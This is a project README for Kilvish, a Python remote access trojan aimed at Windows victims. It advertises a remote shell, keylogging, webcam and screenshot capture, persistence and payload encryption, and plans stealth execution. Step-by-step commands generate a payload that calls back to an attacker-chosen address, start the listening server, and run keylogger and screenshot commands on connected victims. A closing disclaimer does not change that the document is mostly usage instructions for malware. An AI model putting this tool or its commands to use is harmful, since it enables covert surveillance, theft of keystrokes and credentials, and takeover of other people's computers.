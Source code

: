 <h1 align="center"> 
    <img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/kilvish.jpg?raw=true" alt="KILVISH" /> <br>    
    KILVISH
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/siddhant385/Kilvish/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v1.0" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT but for now victim is only windows User.</h4>

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/1.png?raw=true"></h6>

## Getting Started
### Description
A  crossplatform RAT written in pure Python with some powershell scripts. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Webcam module. Captures Webcam of client screen.(Thanks to Bainky/RAT)</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding for connection. </li>
    <li>Encrypts the payload using AES Encryption (Thanks to pushpendraindia)</li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Voice commands(Thanks to samratashok/nishang)</li>
    <li>Additional system info (Thanks to samratashok/nishang)</li>
    <li>Persistent</li>
    <li>Source File included for testing</li>
    <li>Less than 10 mb executble file/li>
    <li>Built in Crypter for encoding in base64 and AES</li>
    <li>Pushing Notifications when a client connects with plyer</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    
</ul>

### Installation
The tool is tested on **Windows 10** with **Python 3.9**. 
Follow the steps for installation:
```
$ git clone https://github.com/siddhant385/Kilvish.git
$ cd Kilvish/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/2.png?raw=true"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 kilvish.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/3.png?raw=true"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/4.png?raw=true"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support my work By giving a Star
### FORK IT FOR CONTRIBUTION

### Disclaimer :
Usage of this tool for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


### ❤️Supporters❤️
[![Stargazers repo roster for @siddhant385/Kilvish](https://reporoster.com/stars/siddhant385/Kilvish)](https://github.com/siddhant385/Kilvish/stargazers)

### ORIGINAL CREATOR OF SILLYRAT WHICH IS MODIFIED TO CREATE KILVISH
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407
